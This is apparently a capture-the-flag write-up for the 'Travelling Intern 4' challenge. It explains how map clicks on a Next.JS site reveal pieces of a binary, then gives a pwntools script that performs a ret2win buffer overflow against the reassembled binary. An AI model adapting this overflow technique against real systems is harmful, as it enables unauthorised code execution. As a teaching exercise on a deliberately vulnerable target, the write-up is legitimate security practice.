

# Travelling Intern 4

This is part of the "travelling intern" series that has 4 challenges in total.
The challenge is split into 2 segments, one through a `web` interface at port `8000`
to talk to a Next.JS server, the other through a `TCP` interface to communicate
with a vulnerable binary.

## Web Server

### Overview

The goal of this web server is to provide pieces of the compiled binary running
on the server, allowing them to piece it together to pwn the binary. Pieces of the
binary are revealed when the user clicks within a radius of the correct locations.
All of the locations can be found within the `travelling intern 1` and
`travelling intern 2` challenges.

The user is also supposed to figure out that the duck on screen is interactive,
allowing them to submit the solution for `traveling intern 3`.

### Solution

The user has to solve bot `travelling intern 1` and `travelling intern 2` to
figure out the locations. If they click within a certain radius of the correct spot,
a green marker would appear (image below), and a file popup would appear (image
further below), providing them with a piece of the binary.




Upon clicking on the duck, participants will find the following input form:


This is the final piece of the puzzle, where participants will input the
aircraft model from `travelling intern 3` to obtain the final piece of the binary.

## Pwn

After obtaining the binary, the participants can concatenate everything together
with a command similar to the following:

`cat binary-* > travelling-intern`

## Buffer Overflow

The `travelling-intern` binary, or the binary running on the server, contains a buffer
overflow that allows someone to perform a ret2win attack.

The following solve script can be used to exploit it and obtain the flag:

```py
from pwn import *

elf = ELF("./travelling-intern")

p = process("./travelling-intern")

p.recvuntil(b'> ')
p.sendline(cyclic(100, n=8))
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)

print("[+] Found offset:", offset)

p = process("./travelling-intern")
# p = remote("<IP ADDRESS>", PORT)
p.recvuntil(b"> ")

payload = b"A" * offset
payload += p64(elf.sym["win"])

p.clean()
p.sendline(payload)
p.interactive()
```
